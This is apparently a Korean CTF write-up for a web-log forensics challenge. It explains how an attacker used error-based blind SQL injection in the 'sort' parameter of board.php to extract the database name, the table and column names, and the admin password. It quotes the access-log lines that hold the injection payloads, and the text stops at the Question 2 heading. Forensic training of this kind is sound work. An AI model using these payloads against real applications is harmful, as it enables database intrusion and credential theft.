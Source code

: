 ## weblog-1
---

주어진 파일에 보면 access 파일이 있는데 로그가 기록되어 있다.

이를 토대로 5개의 문제를 풀면 된다.

<br><br>

### Question 1
---

```
Q: 공격자에게 탈취된 admin 계정의 PW를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

<br>

로그를 보면 login.php에서 시도를 하다가 실패해서 board.php로 이동한다.

이동한 다음 search 매개변수에 값을 넣어서 시도하다가 안되서 sort 매개변수로 시도를 한다.

그런데 sort 매개변수는 값을 그대로 받아들이기 때문에 공격자는 여기서 database명을 뽑아내려고 시도한다.

공격자는 if문을 통해 query가 true이면 문법 에러를 일으켜서 확인한다. 

500 에러가 일어남을 확인할 수 있다.

<br>

아래의 로그는 database 명의 첫 글자인 s를 알아낸 로그 기록이다. 

database 명은 simple_board임을 config.php에서 확인할 수 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:11:09 +0000] "GET /board.php?sort=if(ord(substr(database(),%201,1))=115,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

그 다음 시간 상으로 ```[02/Jun/2020:09:21:34 +0000]``` 때 기록된 로그부터는 information_schema.columns 에서 테이블, 컬럼 명을 추출하려는 로그가 기록되어 있다.

공격자가 첫 글자를 추출했다. 

<br>

```
172.17.0.1 - - [02/Jun/2020:09:22:01 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(TABLE_NAME,0x3a,COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=database()),%201,1))=98,%20(select%201%20union%20select%202),%200) HTTP/1.1" 500 1192
```

<br>

테이블명의 첫 글자는 b이다.

다른 코드를 보면은 테이블명이 board, 컬럼 이름이 idx, title, contents, writer가 있음을 알 수 있다.

공격자가 뽑아낸 테이블, 컬럼명은 아래와 같다.

```board:idx,board:title,board:contents,board:writer,users:idx,users:username,users:password,users:level```

<br>

다음은 ```[02/Jun/2020:09:50:05 +0000]``` 이 시간에 기록된 로그부터는 users 테이블의 user,password 컬럼 값들을 추출하는 로그가 기록되어 있다.

<br>

```
172.17.0.1 - - [02/Jun/2020:09:50:05 +0000] "GET /board.php?sort=if(ord(substr((select%20group_concat(username,0x3a,password)%20from%20users),%201,1))=32,%20(select%201%20union%20select%202),%200) HTTP/1.1" 200 841
```

<br>

여기서 성공한 로그(500 에러가 난 로그)를 살펴보면 admin의 비밀번호는 Th1s_1s_Adm1n_P@SS

<br><br>

## Question 2
---





